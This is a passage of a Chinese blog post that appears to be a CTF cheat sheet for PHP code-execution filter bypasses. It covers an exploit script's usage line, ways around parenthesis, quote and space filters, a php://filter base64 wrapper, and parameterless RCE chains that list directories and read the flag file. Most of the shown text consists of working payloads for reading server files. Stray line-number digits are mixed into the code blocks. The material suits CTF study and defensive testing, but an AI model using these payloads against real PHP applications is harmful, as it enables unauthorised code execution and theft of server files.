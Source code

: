 使用方法：

```bash
python3 exp.py 题目地址
1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201017230713313.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)

##### 0x09 过滤括号

使用不需要括号的函数

- echo

```bash
echo `cat /flag` 
1
```

- require

```bash
require '/flag'
1
include%09$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201015154053813.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)

2，不需要引号和空格

```bash
#<?=require~~flag.txt?>
<?=require~%d0%99%93%9e%98?> 
12
```

##### 0x10 无参数RCE

更多无参数rce方法：https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200926143357160.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)
读取目录:

```bash
print_r(scandir(current(localeconv())));
print_r(scandir(pos(localeconv())));
12
```

注：pos(localeconv())等于.
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200926144038213.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)
读取flag文件：

```bash
print_r(readfile(next(array_reverse(scandir(pos(localeconv()))))));
highlight_file(next(array_reverse(scandir(pos(localeconv())))));
12
```

